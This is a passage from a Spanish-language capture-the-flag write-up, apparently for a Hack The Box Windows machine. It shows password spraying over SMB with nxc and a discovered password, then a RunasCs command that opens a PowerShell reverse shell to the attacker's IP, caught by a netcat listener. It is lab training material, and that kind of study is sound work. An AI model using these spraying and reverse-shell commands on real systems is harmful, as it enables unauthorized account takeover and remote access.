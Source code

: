 Pero la contraseña de la cuenta `sql_svc` no es esta

```bash
❯ nxc smb freelancer.htb -u sql_svc -p 'IL0v3ErenY3ager'
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sql_svc:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
```

Igualmente, viendo las carpetas que hay en `C:\Users` podemos obtener nombres de usuarios por los que probar y... (sí, se te hará evidentemente que la contraseña es de esa usuaria si conoces ese anime)

```bash
❯ nxc smb freelancer.htb -u userlist.txt -p 'IL0v3ErenY3ager' --continue-on-success
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\Administrator:IL0v3ErenY3ager STATUS_LOGON_FAILURE 
```

Ya que no es parte del grupo `Remote Management Users`, vamos a tener que usar `RunasCs` para poder acceder como este usuario.

```bash
PS C:\Temp> .\runas.exe mikasaAckerman IL0v3ErenY3ager powershell.exe -r 10.10.14.228:8443

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4d0f5$\Default
[+] Async process 'C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4016 created in background.
```

```bash
❯ rlwrap nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 10.10.11.5 56316
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32> whoami
whoami
freelancer\mikasaackerman
```

En el escritorio de esta usuaria podremos encontrar la primera flag.

